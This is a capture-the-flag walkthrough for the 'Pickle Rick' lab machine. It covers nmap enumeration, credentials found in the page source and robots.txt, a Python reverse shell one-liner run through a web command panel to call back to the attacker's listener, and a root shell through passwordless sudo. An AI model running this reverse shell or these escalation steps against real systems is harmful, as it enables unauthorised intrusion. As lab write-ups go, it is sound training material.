



# Pickle Rick

### Information gathering

```bash
kali@kali> echo '10.10.136.110 rick.thm' | sudo tee -a /etc/hosts
kali@kali> nmap rick.thm -oN nmap-scan -T4
kali@kali> ports="$(cat nmap-scan | grep ^[0-9] | cut -d'/' -f1 | tr '\n' ',' | sed 's/,$//')"
kali@kali> sudo nmap -p $ports -sV -sC -O rick.thm -oN nmap-services
```

* The open ports are 80 and 22.
* Go to http://rick.thm and you will find a clue in the source code : `R1ckRul3s`.

<figure><figcaption></figcaption></figure>

* Enumerate with Nmap script.

```bash
kali@kali> nmap rick.thm -oN nmap-http-enum --script http-enum -p 80
```

<figure><figcaption></figcaption></figure>

* Grab the content of the `robots.txt` file and you will get the text `Wubbalubbadubdub`.

```bash
kali@kali> curl rick.thm/robots.txt -o robots.txt
```

### Exploitation

* Go to the login page http://rick.thm/login.php and enter credentials `R1ckRul3s:Wubbalubbadubdub`. You gain access to a command panel.
* By executing `python3 --version`, you can see the Python binaries are installed.

<figure><figcaption></figcaption></figure>

* On the [HackTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux#python) page, there are few Python scripts and one of these work on our target.

```bash
kali@kali> nc -lnvp 1234
```

* Copy/paste the script below in the command form on the target. Don't forget to set the IP address.

```bash
export RHOST="10.8.150.147";export RPORT=1234;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

You get the reverse shell !

### Post-exploitation

* Upgrade the shell with the command `/bin/bash -i`.
* Check the sudo privileges for `www-data` user. You can see he can run all commands as root with no password.

```bash
www-data@target> sudo -l
www-data@target> sudo su
root@target> cat /var/www/html/Sup3rS3cretPickl3Ingred.txt  # first
root@target> cat /home/rick/second\ ingredients             # second
root@target> cat /root/3rd.txt                              # third
```

<figure><figcaption></figcaption></figure>
